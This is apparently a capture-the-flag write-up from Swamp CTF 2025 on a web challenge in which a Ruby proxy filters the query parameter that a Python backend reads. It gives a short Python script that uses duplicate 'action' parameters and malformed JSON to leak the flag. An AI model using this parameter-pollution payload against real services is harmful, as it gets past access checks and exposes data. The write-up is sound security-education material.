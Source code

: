 ```yaml
---
date: March 31, 2025
description: Ruby+Python, AI jailbreak RCE, XXE, Azure Storage
platform: Swamp CTF 2025
categories: Web, Misc
tags:
---
```


# Web
## Contamination
#server-side-parameter-pollution #ruby #python #json

I have created a safe reverse proxy that only forwards requests to retrieve debug information from the backend. What could go wrong?

[http://chals.swampctf.com:41234](http://chals.swampctf.com:41234)

### Challenge 
ruby proxy only accepts `getInfo` action query parameter and it passes the params and body to python backend for processing . The challenge is we must somehow pass a `getFlag` action query parameter in the backend then trigger error in the json body to leak the flag

### Solution
to bypass param checks we can use `?action=getFlag&action=getInfo` the backend handles it differently and once it goes to the backend the `getFlag` action will be checked

to trigger error tried techniques described here https://bishopfox.com/blog/json-interoperability-vulnerabilities. 

```python
import requests as r 

url = "http://chals.swampctf.com:41234"
headers = {
    "Content-Type": "application/json"
}
query = "?action=getFlag&action=getInfo"
data = '{"key": "value",//\n"test":"1"}'

resp=r.post(url+query, headers=headers,data=data)
print(resp.text)
```
![](_attachments/Pasted%20image%2020250330045550.png)

>Using different stacks to handle inputs can cause unintended side effects 

References:
- https://portswigger.net/web-security/api-testing/server-side-parameter-pollution
- https://bishopfox.com/blog/json-interoperability-vulnerabilities
- https://github.com/BishopFox/json-interop-vuln-labs
